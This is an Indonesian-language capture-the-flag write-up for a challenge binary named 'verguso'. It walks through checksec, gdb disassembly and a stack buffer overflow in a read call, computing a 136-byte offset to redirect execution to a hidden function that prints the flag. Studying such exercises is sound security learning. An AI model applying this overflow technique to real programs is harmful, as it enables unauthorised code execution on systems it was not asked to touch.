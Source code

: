 Diberikan sebuah binary bernama Verguso

Kita check terlebih dahulu
```
$ file verguso
verguso: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d3f1ad27e7c84e0d4acd06c2d807a982fd66d8d1, not stripped
```

Saat dijalankan program meminta sebuah input.

```
$ ./verguso
Tidak Semudah ItuNikko Enggaliano
```

Saat program selesai meminta input langsung exit. Mari kita debug untuk tahu program tersebut ngapain.

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Konfigurasinya sebagai Terlihat diatas. Mari kita lihat ada fungsi apa aja.

```
gdb-peda$ info function
All defined functions:

--SKIP--
0x00000000004005b6  verguso
0x00000000004005c7  nono
0x00000000004005e8  main
```

Mari kita liat fungsi `main` ngapain

```
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x00000000004005e8 <+0>:     push   rbp
   0x00000000004005e9 <+1>:     mov    rbp,rsp
   0x00000000004005ec <+4>:     sub    rsp,0x10
   0x00000000004005f0 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005f3 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005f7 <+15>:    mov    edx,0x11
   0x00000000004005fc <+20>:    mov    esi,0x4006b1
   0x0000000000400601 <+25>:    mov    edi,0x1
   0x0000000000400606 <+30>:    call   0x400470 <write@plt>
   0x000000000040060b <+35>:    mov    eax,0x0
   0x0000000000400610 <+40>:    call   0x4005c7 <nono>
   0x0000000000400615 <+45>:    mov    eax,0x0
   0x000000000040061a <+50>:    leave
   0x000000000040061b <+51>:    ret
End of assembler dump.
gdb-peda$
```

Terlihat disitu program setelah memprint sesuaty pada main+30 lalu memanggil fungsi nono, Mari kita lihat fungsi nono


```
gdb-peda$ pdisas nono
Dump of assembler code for function nono:
   0x00000000004005c7 <+0>:     push   rbp
   0x00000000004005c8 <+1>:     mov    rbp,rsp
   0x00000000004005cb <+4>:     add    rsp,0xffffffffffffff80
   0x00000000004005cf <+8>:     lea    rax,[rbp-0x80]
   0x00000000004005d3 <+12>:    mov    edx,0x200
   0x00000000004005d8 <+17>:    mov    rsi,rax
   0x00000000004005db <+20>:    mov    edi,0x0
   0x00000000004005e0 <+25>:    call   0x400490 <read@plt>
   0x00000000004005e5 <+30>:    nop
   0x00000000004005e6 <+31>:    leave
   0x00000000004005e7 <+32>:    ret
End of assembler dump.
```

Nono adalah fungsi inputan, Terlihat disitu memanggl fungsi `read` yang vunarable terhadap bof. Jadi bisa kita simpulkan bahwa kita harus mengarahkan sesuatu ke RIP

Mari kita lihat fungsi `verguso` yang tidak di panggil sama sekali.

```
gdb-peda$ pdisas verguso
Dump of assembler code for function verguso:
   0x00000000004005b6 <+0>:     push   rbp
   0x00000000004005b7 <+1>:     mov    rbp,rsp
   0x00000000004005ba <+4>:     mov    edi,0x4006a4
   0x00000000004005bf <+9>:     call   0x400480 <system@plt>
   0x00000000004005c4 <+14>:    nop
   0x00000000004005c5 <+15>:    pop    rbp
   0x00000000004005c6 <+16>:    ret
End of assembler dump.
```

Terlihat disitu ada fungsi system yang di panggil. Yang bisa saja shell, Tapi mari kita lihat fungsi ini ngapain. Kita arahkan verguso ke $EIP

Pertama kita break pada ret fungsi main

```
gdb-peda$ b*main+51
Breakpoint 1 at 0x40061b
gdb-peda$ r
Tidak Semudah Itusaaaaaaaaaaaaaaaaaaaaaaaaa
```

Lalu kita isi $RIP dengan fungsi verguso

```
gdb-peda$ set $rip=&verguso
gdb-peda$ ni

```

```
RDI: 0x4006a4 ("cat flag.txt")
```

Terlihat bahwa system menjalankan fungsi cat flag.

jadi idenya kita isi $RIP dengan fungsi verguso

Pada fungsi nono inputan kita dialokasikan sebesar

```
 0x00000000004005cf <+8>:     lea    rax,[rbp-0x80]
```

Jadi kita tinggal hitung jarak antara $rbp-0x80 sampai $rbp+8 saat RIP terovewrite

Pertama kita break pada ret fungsi `main`

```
gdb-peda$ b*main+51
Breakpoint 1 at 0x40061b
gdb-peda$ r
Tidak Semudah ItuNikkko
```

Lalu kita jalankan fungsi

```
gdb-peda$ distance $rbp-0x80 $rbp+8
From 0x4005a0 to 0x400628: 136 bytes, 34 dwords
```

Terlihat 136 diperlukan untuk mengoverwrite $RIP

jadi isi payload kita adalah

junk*136->fungsi verguso->flag


Saya telah menulis Exploitnya silahkan dilihat dan dijalankan

Nikko Enggaliano
